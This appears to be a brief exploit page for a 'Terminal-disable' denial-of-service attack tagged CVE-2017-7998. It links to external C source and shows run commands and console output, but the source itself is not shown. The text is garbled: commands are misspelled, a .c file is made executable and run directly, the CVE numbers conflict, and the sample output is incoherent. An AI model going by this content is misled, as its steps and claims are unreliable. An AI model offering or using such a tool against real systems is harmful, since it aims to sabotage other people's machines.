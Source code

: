 
Denial of service Terminal-disable ::> CVE-2017-7998

Author @matthomjxi0e 

.Description 
---------------------------
Denial of service Is a technique is Denial or destroys any system services, like System or files or Terminal, And this Execution 
Lead to sabotage Terminal,

codeing-raw

[Code-raw](https://gist.githubusercontent.com/jihadLkmaty218/cd85ab240250a52089602a9cd14b2960/raw/e00f2d3e680d2597392e38dc91564c5bf3439555/CVE-2017-7998.c)

```
chmox +x ./CVE-2017-5390.c 
./CVE-2017-5390.c 



              (Results) 
#> 
( Exmple to Test the Denial of Service )
                                  
 		 chmod +x CVE-2017-7998.c 
                                  
		./CVE-2017-7998.c        
                                   
/☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯
☯               CVE-2017-7998                             ☯
☯                                                        ☯
☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯☯
Enter

 add User the Home your !!

matt:> root

☯☯☯☯ completed the Denial of Service ☯☯☯☯

<#
```
